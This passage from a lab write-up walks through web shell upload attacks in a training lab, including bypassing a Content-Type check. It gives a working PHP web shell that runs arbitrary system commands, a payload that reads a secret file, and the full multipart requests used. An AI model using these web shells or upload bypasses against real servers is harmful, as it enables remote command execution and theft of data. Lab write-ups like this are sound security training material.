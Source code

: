 ```http

# Response :

HTTP/1.1 200 OK
Date: Tue, 13 Aug 2024 05:56:06 GMT
Server: Apache/2.4.41 (Ubuntu)
Keep-Alive: timeout=5, max=100
Connection: close
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

Mg7QQZyRONnI8piUh0YKPEFQIi4Rt6bP
```


We were able to fetch the secret. A more versatile web shell may look something like this:

`<?php echo system($_GET['command']); ?>`

This script enables you to pass an arbitrary system command via a query parameter as follows:

`GET /example/exploit.php?command=id HTTP/1.1`



#### Web shell upload via Content-Type restriction bypass

`application/x-www-form-url-encoded` : For sending simple HTML forms
`multipart/form-data` : For sending large data like PDFs and images

In the current lab the file type is being validated solely on the basis of `Content-Type` header. We can bypass this restriction.

We were unable to upload the `php` script like we did in the above lab. So we had to upload the script and change the `Content-Type` header back to `image/jpeg` This allowed us to bypass the restriction

```http
# Original Request body

-----------------------------164166457611644244961394233847
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------164166457611644244961394233847
Content-Disposition: form-data; name="user"

wiener
-----------------------------164166457611644244961394233847
Content-Disposition: form-data; name="csrf"

leQfCOJuZHpXJv9bIQs5Gf9oryJZe3Ix
-----------------------------164166457611644244961394233847--

# Modified request body


-----------------------------164166457611644244961394233847
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
-----------------------------164166457611644244961394233847
Content-Disposition: form-data; name="user"

wiener
```